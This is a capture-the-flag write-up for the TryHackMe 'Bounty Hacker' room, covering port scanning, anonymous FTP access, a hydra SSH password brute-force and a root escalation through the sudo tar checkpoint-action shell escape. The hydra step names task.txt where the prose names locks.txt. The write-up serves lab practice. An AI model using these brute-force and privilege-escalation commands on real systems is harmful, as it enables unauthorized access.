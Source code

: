 # Bounty Hacker

<img align="right" src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker1.png" width="150" height="150">

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

LINK = [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)

### FYI
This writeup don't include any passwords/cracked hashes/flags

# Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

# Steps
1 - Join the room, start the virtual machine and the AttackBox (or connect via VPN)

2 - Find open ports on the machine, the nmap output will show three open ports:
* ```# nmap <ip-virtual-machine>```
<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker2.png" width="30%">

3 - Who wrote the task list?
* Access the ftp of the virtual machine with ```anonymous``` user
* ```# ftp <ip-virtual-machine>```
* List and download all the files in the ftp server
* ```ftp> dir```
* ```ftp> get locks.txt```
* ```ftp> get task.txt```
* View the content of tast.txt
* ```# cat task.txt```

4 - What service can you bruteforce with the text file found?
* Check the result of the nmap scan

5 - What is the users password? 
* Use hydra with the locks.txt file to bruteforce the ssh user and pasword
* ```# hydra -l lin -P /root/task.txt <ip-virtual-machine> ssh```
<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker3.png" width="50%">

6 - user.txt
* With the result of hydra login in to the virtual machine via ssh and get the flag of the ```user.txt```

7 - root.txt
* Run ```# sudo -l``` to list the commands that the ```lin``` user can run as sudo, you can see that ```/bin/tar``` is the only one
* Go to [GTFOBins](https://gtfobins.github.io/) and search for ```tar``` bypass command and execute it:
* ```# sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
* Search the root.txt file
* ```# find / -name flag.txt 2>/dev/null```
<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker4.png" width="25%">

* Get the flag!! 😎
